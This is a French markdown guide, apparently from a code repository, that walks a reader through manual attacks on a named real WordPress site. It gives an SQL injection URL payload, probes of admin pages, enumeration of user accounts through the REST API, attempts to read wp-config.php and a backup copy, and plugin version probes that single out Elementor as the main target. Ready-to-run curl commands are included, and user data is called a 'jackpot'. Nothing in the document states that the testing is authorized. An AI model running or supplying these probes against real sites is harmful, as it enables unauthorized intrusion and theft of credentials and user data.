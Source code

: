 # 🔥 TESTS MANUELS COMPLÉMENTAIRES

## Basé sur tes résultats, voici les tests précis à faire :

### 1. 💉 SQL INJECTION - TEST MANUEL PRÉCIS
**URL exacte à tester dans ton navigateur :**
```
https://maguen-cyber.fr/?p=1' UNION SELECT 'VULNERABLE',2,3--
```

**Alternative (encode les espaces) :**
```
https://maguen-cyber.fr/?p=1%27%20UNION%20SELECT%20%27VULNERABLE%27,2,3--
```

**Ce que tu dois voir :**
- Page qui change de contenu
- Ou erreur SQL visible  
- Ou le mot "VULNERABLE" qui apparaît quelque part

### 2. 🚪 ADMIN PANEL - EXPLORATION
Tu as vu la page de login, maintenant teste :

**Pages admin spécifiques :**
```
https://maguen-cyber.fr/wp-admin/edit.php
https://maguen-cyber.fr/wp-admin/users.php  
https://maguen-cyber.fr/wp-admin/themes.php
https://maguen-cyber.fr/wp-admin/plugins.php
```

**Ce qui peut arriver :**
- Redirection vers login (normal)
- **OU accès direct** (vulnérabilité critique !)

### 3. 📊 API REST - EXTRACTION MAXIMALE  
Tu as confirmé que l'API marche ! Maintenant extrais plus :

**Users (le plus important) :**
```
https://maguen-cyber.fr/?rest_route=/wp/v2/users
https://maguen-cyber.fr/wp-json/wp/v2/users
```

**Pages complètes :**
```
https://maguen-cyber.fr/?rest_route=/wp/v2/pages&per_page=100
```

**Médias :**
```
https://maguen-cyber.fr/?rest_route=/wp/v2/media&per_page=100
```

### 4. 🧩 PLUGINS - TESTS PRÉCIS
**Elementor (notre cible principale) :**
```
https://maguen-cyber.fr/?action=elementor_ajax
https://maguen-cyber.fr/wp-content/plugins/elementor/readme.txt
```

**Contact Form 7 :**
```
https://maguen-cyber.fr/?wpcf7=true
https://maguen-cyber.fr/wp-content/plugins/contact-form-7/readme.txt  
```

**Répertoire plugins :**
```
https://maguen-cyber.fr/wp-content/plugins/
```

### 5. 🔍 RECHERCHE D'INFOS SENSIBLES
**wp-config.php (configuration critique) :**
```
https://maguen-cyber.fr/wp-config.php
https://maguen-cyber.fr/wp-config.php.bak
```

**Readme WordPress :**
```
https://maguen-cyber.fr/readme.html
```

## 🎯 COMMANDES CURL PRÉCISES

Si tu préfères la ligne de commande :

```bash
# SQL Injection test
curl -s "https://maguen-cyber.fr/?p=1%27%20UNION%20SELECT%20%27VULNERABLE%27,2,3--" | grep -i vulnerable

# Users extraction  
curl -s "https://maguen-cyber.fr/?rest_route=/wp/v2/users" | jq .

# Plugin versions
curl -s "https://maguen-cyber.fr/wp-content/plugins/elementor/readme.txt" | head -20

# Admin pages
curl -I "https://maguen-cyber.fr/wp-admin/edit.php"
curl -I "https://maguen-cyber.fr/wp-admin/users.php"
```

## 📋 CE QU'ON CHERCHE

1. **SQL Injection** : Contenu de page modifié ou erreurs SQL
2. **Admin Access** : Pages qui ne redirigent PAS vers login  
3. **API Users** : Informations sur les utilisateurs WordPress
4. **Plugin Versions** : Numéros de version exposés
5. **Config Files** : Fichiers de configuration accessibles

## 🚨 PRIORITÉ ABSOLUE

**Teste d'abord ça :**
```
https://maguen-cyber.fr/?rest_route=/wp/v2/users
```

**Si tu vois des infos utilisateurs → JACKPOT TOTAL !**